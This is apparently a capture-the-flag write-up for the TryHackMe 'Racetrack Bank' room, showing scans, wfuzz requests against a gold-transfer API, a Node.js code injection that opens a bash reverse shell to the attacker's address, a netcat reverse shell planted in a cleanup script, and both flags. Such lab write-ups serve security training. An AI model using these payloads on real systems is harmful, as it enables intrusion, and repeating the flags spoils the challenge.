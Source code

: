 # Racetrack Bank

It's time for another heist.

[Racetrack Bank](https://tryhackme.com/room/racetrackbank)

- Network Enumeration
- Web Enumeration
- Code Injection
- Abusing SUID/GUID

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flags

Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

```
kali@kali:~/CTFs/tryhackme/Racetrack Bank$ sudo nmap -A -sS -sC -sV -O 10.10.44.102
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 15:58 CEST
Nmap scan report for 10.10.44.102
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.95 ms 10.8.0.1
2   34.09 ms 10.10.44.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.17 seconds
```

```
kali@kali:~/CTFs/tryhackme/Racetrack Bank$ gobuster dir -u http://10.10.44.102/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.44.102/
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/10/20 16:00:27 Starting gobuster
===============================================================
/create.html (Status: 200)
/home.html (Status: 302)
/Home.html (Status: 302)
/images (Status: 301)
/Images (Status: 301)
/index.html (Status: 200)
/Index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/Login.html (Status: 200)
/purchase.html (Status: 302)
===============================================================
2020/10/20 16:01:01 Finished
===============================================================
```

[http://10.10.44.102/home.html](http://10.10.44.102/home.html)

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3A1_QrOdmwhf3pJserjzFqbCWZAqIYR8fv.vb7X%2BTckrABMYXkszRkdjHm59MnUjLGo9jPnfbBaCc0" -d "user=test2&amount=FUZZ"

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AdztpeWIe47gRM3QkNL6s1zBf_NqHY9eb.DErxWEyXCczE%2BYifpQ2t%2F7rMBpsh1AHZpTk73Z9yj6M" -d "user=test&amount=FUZZ"

[http://10.10.44.102/premiumfeatures.html?ans=2](http://10.10.44.102/premiumfeatures.html?ans=2)

`calculation=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.106.222/9001+0>%261"')`

```
brian@racetrack:~/website$ cd ~
cd ~
brian@racetrack:~$ ls -l
ls -l
total 16
drwxrwxr-x 3 root  root  4096 Apr 23 05:07 admin
drwxr-xr-x 2 brian brian 4096 Apr 23 04:55 cleanup
-rw-rw-r-- 1 brian brian   39 Apr 23 05:45 user.txt
drwxrwxr-x 6 brian brian 4096 Apr 22 09:41 website
brian@racetrack:~$ cat user.txt
cat user.txt
THM{178c31090a7e0f69560730ad21d90e70}
```

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' > cleanup/cleanupscript.sh
```

```
brian@racetrack:~$ find / -perm -4000 -user root -type f 2> /dev/null
find / -perm -4000 -user root -type f 2> /dev/null
/home/brian/admin/manageaccounts
```

```
brian@racetrack:~$ cat root_flag.txt
cat root_flag.txt
THM{55a9d6099933f6c456ccb2711b8766e3}
```

1. User flag

`THM{178c31090a7e0f69560730ad21d90e70}`

2. Root flag

`THM{55a9d6099933f6c456ccb2711b8766e3}`
